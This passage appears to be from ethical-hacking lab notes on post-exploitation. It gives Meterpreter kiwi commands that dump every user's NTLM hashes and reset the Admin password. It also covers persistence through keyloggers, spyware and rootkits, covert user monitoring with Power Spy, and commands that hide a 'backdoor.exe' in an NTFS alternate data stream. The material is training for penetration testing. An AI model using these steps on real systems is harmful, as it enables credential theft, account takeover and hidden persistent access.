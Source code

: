 	meterpreter > load kiwi
	meterpreter > help kiwi
	meterpreter > lsa_dump_sam 	# load NTLM Hash of all users
Note: LSA secrets are used to manage a system's local security policy, and contain sesnsitive data such as User passwords, IE passwords, service account passwords, SQL passwords etc.

Change the password of Admin using the password_change module:


	meterpreter > password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password
	meterpreter > lsa_dump_sam	# Check the new hash value
	
Password has now been changed to 'password'.


## Maintain Remote Access and Hide Malicious Activities

As a professional ethical hacker or pen tester, the next step after gaining access and escalating privileges on the target system is to maintain access for further exploitation on the target system.

Now, you can remotely execute malicious applications such as keyloggers, spyware, backdoors, and other malicious programs to maintain access to the target system. You can hide malicious programs or files using methods such as rootkits, steganography, and NTFS data streams to maintain access to the target system.

Maintaining access will help you identify security flaws in the target system and monitor the employees’ computer activities to check for any violation of company security policy. This will also help predict the effectiveness of additional security measures in strengthening and protecting information resources and systems from attack.


### User System Monitoring and Surveillance using Power Spy

Power Spy is a computer activity monitoring software that allows you to secretly log all users on a PC while they are unaware. After the software is installed on the PC, you can remotely receive log reports on any device via email or FTP. You can check these reports as soon as you receive them or at any convenient time. You can also directly check logs using the log viewer on the monitored PC.



### Hide Files using NTFS Streams

A professional ethical hacker or pen tester must understand how to hide files using NTFS (NT file system or New Technology File System) streams. NTFS is a file system that stores any file with the help of two data streams, called NTFS data streams, along with file attributes. The first data stream stores the security descriptor for the file to be stored such as permissions; the second stores the data within a file. Alternate data streams are another type of named data stream that can be present within each file.


	notepad readme.txt
	type calc.exe > readme.txt:calc.exe
	dir
	mklink backdoor.exe readme.txt:calc.exe
	backdoor.exe
